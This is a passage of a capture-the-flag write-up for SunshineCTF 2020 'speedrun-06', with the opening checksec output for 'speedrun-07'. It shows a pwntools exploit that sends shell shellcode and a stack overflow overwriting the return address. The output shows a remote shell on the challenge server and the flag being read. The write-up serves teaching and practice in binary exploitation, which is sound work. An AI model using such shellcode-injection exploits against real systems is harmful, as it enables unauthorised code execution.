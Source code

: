 ```python
payload  = b''
payload += asm(shellcraft.sh())

p.sendline(payload)

payload  = b''
payload += 56 * b'A'
payload += p64(stack)

p.sendlineafter('For saving me from all they\'ve taken.\n',payload)
p.interactive()
```

> Again, that `56` was kinda sloppy (c&p job) of me, it should have been `(0x48 - 0x10)`.  Yes, still `56`, but with some meaning.


Output:

```bash
# ./exploit_06.py REMOTE=1
[*] '/pwd/datajerk/sunshinectf2020/speedrun-06/chall_06'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
[+] Opening connection to chal.2020.sunshinectf.org on port 30006: Done
[*] stack: 0x7ffc092ac690
[*] Switching to interactive mode
$ id
uid=1000(chall_06) gid=1000(chall_06) groups=1000(chall_06)
$ ls -l
total 16
-rwxr-xr-x 1 root root     8464 Nov  7 07:49 chall_06
-rw-r----- 1 root chall_06   39 Nov  7 08:51 flag.txt
$ cat flag.txt
sun{shepherd-of-fire-1a78a8e600bf4492}
```


## speedrun-07

### Checksec
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```
